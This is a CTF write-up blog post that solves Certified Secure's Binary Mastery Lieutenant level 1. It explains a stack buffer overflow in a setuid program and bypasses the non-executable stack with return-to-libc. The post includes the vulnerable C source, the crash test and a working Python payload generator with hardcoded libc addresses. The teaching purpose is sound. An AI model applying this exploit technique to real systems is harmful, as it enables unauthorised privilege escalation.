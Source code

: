 ```yaml
---
title:  "[CTF] Binary Master Lieutenant - 1"
---
```


![Logo](/assets/images/belts-red.png)


In this post we'll continue with the first level from the [Lieutenant](https://www.certifiedsecure.com/certification/view/37) set of challenges from **Certified Secure Binary Mastery**.
More buffer overflows on the horizon, but now a new protection mechanism is introduced: the non-executable (**NX**) bit. 
The method we'll need to use here is called is called **ret2libc** (return to libc) and allows us go around the fact that the stack is not executable.

In the previous levels we exploited similar stack-based buffer overflows by overwriting past the buffer limits, 
until we reached the saved return address, where we wrote an address we controlled. 
We placed the shellcode either in the buffer itself or in environment variables, which both ended up on the stack.
Now because the stack is NOT executable, the program would just crash. So we need a way to get past this. 
One known trick is to return insted to the function **system()** from the standard _libc_ library, which accepts an argument to execute.

To review the previous levels, check the links below:
* [Binary Master: Ensign - Level 1]({{ site.baseurl }}{% post_url 2016-01-07-binary-master-ensign-1 %})
* [Binary Master: Ensign - Level 2]({{ site.baseurl }}{% post_url 2016-01-14-binary-master-ensign-2 %})
* [Binary Master: Ensign - Level 3]({{ site.baseurl }}{% post_url 2016-01-21-binary-master-ensign-3 %})
* [Binary Master: Ensign - Level 4]({{ site.baseurl }}{% post_url 2016-01-28-binary-master-ensign-4 %})
* [Binary Master: Ensign - Level 5]({{ site.baseurl }}{% post_url 2016-02-09-binary-master-ensign-5 %})

If you want to know more about the techniques to bypass the NX bit, make usre to check the following great resources:
* [Bypassing NX bit using return-to-libc](https://sploitfun.wordpress.com/2015/05/08/bypassing-nx-bit-using-return-to-libc/)
* [Bypassing NX bit using chained return-to-libc](https://sploitfun.wordpress.com/2015/05/08/bypassing-nx-bit-using-chained-return-to-libc/)

## 0 - Discovery
Let's connect to the server and check the binary we're dealing with:
```
$ ssh level5@hacking.certifiedsecure.com -p 8266
level4@hacking.certifiedsecure.com's password: 
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 3.13.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

New release '16.04.2 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

   ___  _                      __  ___         __              
  / _ )(_)__  ___ _______ __  /  |/  /__ ____ / /____ ______ __
 / _  / / _ \/ _ `/ __/ // / / /|_/ / _ `(_-</ __/ -_) __/ // /
/____/_/_//_/\_,_/_/  \_, / /_/  /_/\_,_/___/\__/\__/_/  \_, / 
                     /___/                 _            /___/  
                             ___ ___  ___ (_)__ ____ 
                            / -_) _ \(_-</ / _ `/ _ \
                            \__/_//_/___/_/\_, /_//_/
                                          /___/      
```

Let's see if we have any mitigation techniques using [checksec.sh](http://www.trapkit.de/tools/checksec.html), downloaded and run locally:
```bash
$ checksec.sh --file level1
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE                       
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   level1

```

There is no stack canary but the stack is **not** executable. What about the state of ASLR on the system? Good news this time: there is [no ASLR](https://askubuntu.com/questions/318315/how-can-i-temporarily-disable-aslr-address-space-layout-randomization), everything is static:

```bash
$ cat  /proc/sys/kernel/randomize_va_space
0
```

## 1 - Vulnerability

```c
#include <string.h>
#include <stdio.h>
#include <unistd.h>

void hello(int count) {
        char buf[12];

        read(0, buf, count);                            [1]
        printf("Hello %s!\n", buf);
}

int main(int argc, char** argv) {
        if (argc != 2) {
                printf("Usage: %s <count>\n", argv[0]);
                return -1;
        }

        hello(atoi(argv[1]));
        return 0;
}
```

It's very easy to understand how the program works and the buffer overflow is obvious. The call to **read** function in **[1]** accepts the number of bytes to be read from the user, without any validation. Input is written into the **buf** buffer which is only 12 bytes. Simple!

The second issue is of course the absence of a stack cookie which, in this case, would have caused the program to crash, preventing the exploitation.

The third issue, which is a general one, is that the application has the **setuid** flag set and it executes actions based on user input (which could be malicious) with elevated privileges. A better design would be to drop the privileges before getting input from an untrusted source. There are ways around this as well, but it would raise the bar a little for the attackers.

## 2 - Exploit

The idea is to redirect the execution flow to the address of the **system** function and somehow give it a meaningful parameter to execute. Let's go step by step.

### Controlling the execution flow
Although we know that **buf** is 12 bytes in size, we need to see the stack layout of the function **hello** in order to understand exactly how many bytes we need to overwrite to get to the saved return address on the stack.

![hello stack](/assets/images/bm6-1.png)

So we need 20 + 4 bytes of padding in the buffer before we'll reach the saved return address. Let's see first if we can reliably control the return address:

```bash
$ python -c 'print "A"*24 + "BBBB"' > input
$ gdb -q ./level1    
```

We see below that the execution crashed at address **0x42424242** ("BBBB"). That's good. We can move on.

![Control EIP](/assets/images/bm6-2.png)

### Final payload

After we gain control of the EIP, we want to return to the **system** function as discussed. I chose to execute the **/home/level2/victory** binary, but we could as well spawn a new shell. So the payload will look like this:

```
| PADDING (24 bytes) | addr. of system() | addr of exit() | addr of arguments |
```

If it's not clear why, go back to the articles referened in the beginning. The last parameter is important. We need to place there the argument to the **system** call. According to its [man page](http://man7.org/linux/man-pages/man3/system.3.html) this should be the address of a string in memory representing the command to execute. 

Since there is no ASLR, we can use the same trick as before and place the command to be executed in an environment variable:

```bash
$ export EGG="/home/level2/victory"
```
The complete script to generate the payload looks like this:

```python
import struct
from subprocess import call

system = 0xf7e65e70     # Address of system() function
exit = 0xf7e58f50       # Address of exit() function
egg = 0xffffdef9-6      # Address of environment variable (/home/level2/victory)

payload = "A" * 24 + struct.pack("<I", system) + struct.pack("<I", exit) + struct.pack("<I", egg)

open("/tmp/input", "wb").write(payload)
```

## 3 - Profit

```
$ /levels/level1 40 < /tmp/input
Hello AAAAAAAAAAAAAAAAAAAAAAAAp^�P�����
                                       !
   ___  _                      __  ___         __
  / _ )(_)__  ___ _______ __  /  |/  /__ ____ / /____ ______ __
 / _  / / _ \/ _ `/ __/ // / / /|_/ / _ `(_-</ __/ -_) __/ // /
/____/_/_//_/\_,_/_/  \_, / /_/  /_/\_,_/___/\__/\__/_/  \_, / 
                     /___/                              /___/  
                ___           __                   __    
               / (_)___ __ __/ /____ ___ ___ ____ / /_  
              / / // -_) // / __/ -_) _ | _ `/ _ | __/  
             /_/_/ \__/\_,_/\__/\__/_//_|_,_/_//_|__/   
              
Subject: Victory!
             
Congrats, you have solved level1. To update your score,
send an e-mail to unlock@certifiedsecure.com and include:
   * your CS-ID
   * which level you solved (level1 @ binary mastery lieutenant)
   * the exploit
   
You can now start with level2. If you want, you can log in
as level2 with password    [REDACTED]
```

That's it for now! In the [next post]({{ site.baseurl }}{% post_url 2016-02-23-binary-master-lieutenant-2 %}) we'll discuss another class of vulnerabilities involving a more subtle error which is usually more difficult to spot - _integer signess errors_.
